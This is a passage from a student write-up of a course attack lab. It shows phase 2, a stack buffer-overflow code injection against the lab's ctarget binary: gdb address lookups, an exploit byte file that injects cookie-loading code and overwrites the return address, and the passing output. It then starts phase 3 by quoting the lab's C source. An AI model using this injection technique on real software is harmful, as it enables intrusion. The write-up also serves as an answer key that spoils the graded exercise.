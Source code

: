 It will ask to type a string.  Type a random string and do `x/s $rsp`, then get something like 

```
(gdb) x/s $rsp
0x5566fce8:	"asdasd"             # the random string I typed
```

 `0x5566fce8` is the address of register %rsp.

Get the address of touch 2

```
(gdb) p touch2
$1 = {void (unsigned int)} 0x555555555993 <touch2>
```

Now we can write our attack file. Create a file named atk2.txt and reverse the bytes for little-endian.

```
48 c7 c7 4e d7 5b 5f c3          /* store cookie in %rdi */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00          /* padding to fill 24 bytes */
e8 fc 66 55 00 00 00 00          /* address of register %rsp */
93 59 55 55 55 55 00 00          /* address of function touch2 */
```

 Finally run the file

```
./hex2raw < atk2.txt > atk2r.txt

./ctarget < atk2r.txt             # use I/O redirection

gdb ctarget                       # within GDB
(gdb) run < atk2r.txt
```

What the exploit does is that after we enter the string  when Gets tries to return, it is forced to point to the address in %rsp by the overflow code so it will execute codes which set our cookie as the parameter and then call touch2.

```
Cookie: 0x5f5bd74e
Type string:Touch2!: You called touch2(0x5f5bd74e)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

<h3 id = "phase3">Phase 3</h3>
Within the file ctarget there is code for functions hexmatch and touch3 having the following C representations:

```c
/* Compare string to hex represention of unsigned value */
int hexmatch(unsigned val, char *sval){
	char cbuf[110];
	/* Make position of check string unpredictable */
	char *s = cbuf + random() % 100;
	sprintf(s, "%.8x", val);
	return strncmp(sval, s, 9) == 0;
}

void touch3(char *sval){
	vlevel = 3; /* Part of validation protocol */
	if (hexmatch(cookie, sval)) {
		printf("Touch3!: You called touch3(\"%s\")\n", sval);
		validate(3);
	} else {
		printf("Misfire: You called touch3(\"%s\")\n", sval);
```